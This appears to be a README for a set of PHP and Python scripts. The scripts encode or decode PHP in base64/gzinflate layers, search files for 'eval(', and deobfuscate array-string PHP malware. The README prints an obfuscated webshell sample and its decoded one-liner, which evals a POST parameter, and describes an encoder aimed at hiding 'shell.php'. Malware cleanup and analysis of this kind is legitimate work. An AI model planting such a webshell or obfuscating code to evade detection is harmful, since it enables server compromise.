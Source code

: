# smartscripts--ss

php实现代码压缩、编码，filename表示待处理文件，times表示操作次数<br/>
base64encode-gzinflate.php--->generate the file encode.shell.php with \<?php eval(gzinflate(base64_decode('---'))); ?\>;<br/>
example: http://xxx.xxx.xxx.xxx/smartscripts--ss/base64encode-gzinflate.php?times=5&filename=shell.php

<hr/>

php实现通过post代码进行解码、解压缩，支持经过多重压缩、编码的代码<br/>
post代码格式为：eval(gzinflate(base64_decode('---')));<br/>
gzinflate-base64decode.php--->post the code "eval(gzinflate(base64_decode('---')));"<br/>
example: http://xxx.xxx.xxx.xxx/smartscripts--ss/gzinflate-base64decode.php

<hr/>

python实现遍历匹配指定目录下所有文件的内容<br/>
input:<br/>
python walkfiles.py<br/>
please input the root you want search: ./<br/>
please input the string you want search: eval(<br/>
output:<br/>
eval( in file ./configuration.php line: 1<br/>
eval( in file ./modules/mod_newEvent/helper.php line: 1<br/>
eval( in file ./logs/model.php line: 1<br/>
eval( in file ./logs/user.php line: 1<br/>
......

<hr/>

php实现通过echo重组通过数组字符串进行混淆的恶意代码<br/>
phpmix-recover.php-->recover the malicious script by echo function

<hr/>

python实现重组通过数组字符串进行混淆的恶意代码<br/>
input:<br/>
python phpmix-recover.py[空格]$l3e='b9Pvlit47fO(e\'Saq8sT_$88b749'[空格]if(isset(${$l3e[20].$l3e[2].$l3e[10].$l3e[14].$l3e[19]}[$l3e[16].$l3e[17].$l3e[17].$l3e[0].$l3e[8].$l3e[7].$l3e[1]])){eval(${$l3e[20].$l3e[2].$l3e[10].$l3e[14].$l3e[19]}[$l3e[16].$l3e[17].$l3e[17].$l3e[0].$l3e[8].$l3e[7].$l3e[1]])<br/>
output:<br/> 
if(isset(${_POST}[q88b749])){eval(${_POST}[q88b749])

<hr/>
